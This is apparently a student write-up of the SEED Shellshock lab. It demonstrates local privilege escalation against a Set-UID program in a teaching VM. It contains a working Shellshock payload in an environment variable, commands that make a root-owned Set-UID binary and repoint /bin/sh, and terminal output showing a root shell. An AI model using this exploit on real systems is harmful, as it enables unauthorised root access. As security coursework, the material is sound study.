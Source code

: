 ### Task 2: Attack Set-UID programs

In this task, we use Shellshock to attack Set-UID programs, with a goal to gain the root privilege. Before the attack, we need to first let `/bin/sh` to point to `/bin/bash` (by default, it points to `/bin/dash` in our SEED Ubuntu 12.04 VM). You can do it using the following command:

```sh
sudo ln -sf /bin/bash /bin/sh
```

(a) The following program is a Set-UID program, which simply runs the "`/bin/ls -l`" command. Please compile this code, make it a Set-UID program, and make `root` be its owner. As we know, the `system()` function will invoke "`/bin/sh -c`" to run the given command, which means `/bin/bash` will be invoked. Can you use the Shellshock vulnerability to gain the root privilege?

```c
#include <stdio.h>
void main()
{
    setuid(geteuid()); // make real uid = effective uid.
    system("/bin/ls -l");
}
```

It should be noted that using `setuid(geteuid())` to turn the real uid into the effective uid is not a common practice in Set-UID programs, but it does happen.
Now we hack it.

```sh
seed@ubuntu:~$ sudo su
root@ubuntu:/home/seed# gcc -o shock shock.c 
root@ubuntu:/home/seed# chmod u+s shock
root@ubuntu:/home/seed# ls -al shock
-rwsr-xr-x 1 root root 7238 Aug  9 19:35 shock
root@ubuntu:/home/seed# exit
exit
seed@ubuntu:~$ export foo='() { :; }; bash'
[08seed@ubuntu:~$ ./shock 
root@ubuntu:/home/seed# 
```

(b) Now, remove the `setuid(geteuid())` statement from the above program, and repeat your attack. Can you gain the root privilege? Please show us your experiment results.

```sh
root@ubuntu:/home/seed# ./shock_1 
total 75228
drwxr-xr-x  4 seed seed     4096 Aug  9 05:35 Desktop
drwxr-xr-x  3 seed seed     4096 Dec  9  2015 Documents
drwxr-xr-x  2 seed seed     4096 Aug  9 04:40 Downloads
drwxrwxr-x  6 seed seed     4096 Sep 16  2014 elggData
-rw-r--r--  1 seed seed     8445 Aug 13  2013 examples.desktop
```

In our experiment, when that line is removed, the attack fails (with that line, the attack is successful). In other words, if the real user id and the effective user id are the same, the function defined in the environment variable is evaluated, and thus the Shellshock vulnerability will be exploited. However, if the real user id and the effective user id are not the same, the function defined in the environment variable is not evaluated at all. This is verified from the bash source code (variables.c, between Lines 308 to 369).
